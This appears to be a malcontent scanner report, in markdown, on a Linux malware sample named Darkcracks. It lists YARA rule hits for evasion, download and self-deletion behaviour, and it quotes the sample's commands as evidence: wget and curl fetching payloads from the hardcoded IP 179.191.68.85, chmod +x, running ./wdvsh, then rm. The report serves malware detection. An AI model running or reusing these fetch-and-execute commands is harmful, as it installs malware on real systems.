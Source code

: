 ## linux/2024.Darkcracks/darkcracks.sh [😈 CRITICAL]

| RISK | KEY | DESCRIPTION | EVIDENCE |
|--|--|--|--|
| CRITICAL | [evasion/file/location/chdir_unusual](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/file/location/chdir-unusual.yara#cd_val_obsessive) | changes directory to multiple unusual locations | [cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /;](https://github.com/search?q=cd+%2F%3B&type=code) |
| CRITICAL | [evasion/self_deletion/run_and_delete](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/self_deletion/run_and_delete.yara#run_sleep_delete) | run executable, sleep, and delete | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code) |
| CRITICAL | [net/download/fetch](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/download/fetch.yara#curl_download_ip) | Invokes curl to download a file from an IP | [curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o&type=code) |
| HIGH | [c2/addr/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/ip.yara#http_hardcoded_ip) | hardcoded IP address within a URL | [http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl)<br>[http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v) |
| HIGH | [c2/tool_transfer/shell](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/tool_transfer/shell.yara#tool_chmod_relative_run_tiny) | fetch file, make it executable, and run it | [wget http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -O agr](https://github.com/search?q=wget+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-O+agr&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[./agr](https://github.com/search?q=.%2Fagr&type=code) |
| MEDIUM | [c2/addr/url](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/url.yara#http_url_with_question) | contains hardcoded endpoint with a question mark | [curl](https://github.com/search?q=curl&type=code)<br>[wget](https://github.com/search?q=wget&type=code) |
| MEDIUM | [exec/shell/exec](https://github.com/chainguard-dev/malcontent/blob/main/rules/exec/shell/exec.yara#calls_shell) | executes shell | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code) |
| MEDIUM | [fs/file/make_executable](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/file/file-make_executable.yara#chmod_executable_shell) | makes file executable | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code) |
| MEDIUM | [fs/path/relative](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/relative.yara#relative_path_val) | references and possibly executes relative path | [./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)<br>[./agr](https://github.com/search?q=.%2Fagr&type=code) |
| MEDIUM | [fs/path/root](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/root.yara#root_path_val) | path reference within /root | [/root](https://github.com/search?q=%2Froot&type=code) |
| MEDIUM | [fs/permission/modify](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/permission/permission-modify.yara#chmod) | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code) |
| LOW | [fs/path/var](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/var.yara#var_path) | path reference within /var | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code) |
| LOW | [net/http](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/http/http.yara#http) | Uses the HTTP protocol | [http](https://github.com/search?q=http&type=code) |
| LOW | [net/url/embedded](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/url/embedded.yara#http_url) | contains embedded HTTP URLs | [http://179.191.68.85](http://179.191.68.85) |
| LOW | [process/chdir](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir.yara#chdir_shell) | changes working directory | [cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code) |


